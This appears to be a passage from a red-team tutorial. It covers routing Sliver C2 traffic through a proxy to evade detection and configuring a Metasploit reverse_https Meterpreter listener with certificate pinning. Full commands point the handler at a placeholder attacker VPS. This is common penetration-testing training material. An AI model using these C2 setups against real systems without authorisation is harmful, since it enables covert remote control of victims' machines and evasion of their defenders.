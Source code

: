 By following these steps, you can configure the Sliver C2 framework to use an HTTP proxy, allowing you to route your C2 traffic effectively through a proxy server. This setup can help you in bypassing network restrictions, evading detection, and blending in with legitimate network traffic during your red team operations or penetration tests.

## TLS Certificate Pinning

TLS (Transport Layer Security) Certificate Pinning is a security mechanism that helps to prevent man-in-the-middle (MITM) attacks by ensuring that the client only accepts a specific public key or certificate for a particular server. Implementing certificate pinning in Meterpreter can help ensure that your communication is secure and not intercepted by an unauthorized party.

### Using TLS Certificate Pinning in Meterpreter

To enable TLS certificate pinning in Meterpreter, you will need to configure your payload and listener to use a specific SSL certificate. Here’s a step-by-step guide on how to achieve this:

#### Step 1: Generate or Obtain an SSL Certificate

First, you need an SSL certificate. You can generate a self-signed certificate or use an existing one from a trusted CA.

**Generating a self-signed certificate using OpenSSL:**

```bash
openssl req -new -newkey rsa:2048 -days 365 -nodes -x509 -keyout meterpreter.key -out meterpreter.crt
```

This command generates a `meterpreter.key` and `meterpreter.crt` file.

#### Step 2: Create a PEM File

Combine the key and certificate into a PEM file:

```bash
cat meterpreter.key meterpreter.crt > meterpreter.pem
```

#### Step 3: Configure the Metasploit Listener

Configure the Metasploit listener to use the generated certificate:

1. **Start Metasploit:**

   ```bash
   msfconsole
   ```

2. **Set up the multi/handler with the SSL options:**

   ```plaintext
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_https
   set LHOST your_vps_ip
   set LPORT 443
   set HandlerSSLCert /path/to/meterpreter.pem
   set StagerVerifySSLCert true
   set StagerHost your_vps_ip
   set ExitOnSession false
   exploit -j
   ```
